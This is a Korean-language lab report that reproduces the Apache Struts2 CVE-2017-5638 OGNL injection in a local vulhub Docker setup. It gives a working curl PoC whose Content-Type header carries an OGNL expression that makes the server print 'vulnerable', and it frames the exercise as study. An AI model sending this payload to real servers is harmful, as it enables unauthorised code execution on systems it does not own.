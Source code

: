 CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서

1. 개요
Apache Struts2의 Content-Type 필드 처리 취약점을 악용하여 원격 코드 실행(RCE)을 수행하는 취약점을 도커 환경에서 재현하였다.

3. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

3. 환경 구축 과정
3.1. 레포 클론 및 폴더 이동
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045

3.2. 컨테이너 실행
docker compose up -d
(여기에 [컨테이너 띄운 캡처] 이미지를 삽입할 예정)

4. 취약점 공격 (PoC)
4.1. 공격 명령어
curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 공격 결과
vulnerable 출력 확인 
(여기에 curl 공격 성공 캡처 이미지 넣을 예정)

5. 결론
Apache Struts2의 Content-Type 필드 OGNL Injection 취약점을 통해 외부 입력값을 서버에서 코드로 실행할 수 있는 치명적인 보안 이슈를 실습을 통해 검증하였다.

6. 참고 자료
https://vulhub.org/#/environments/struts2/s2-045/
https://nvd.nist.gov/vuln/detail/CVE-2017-5638
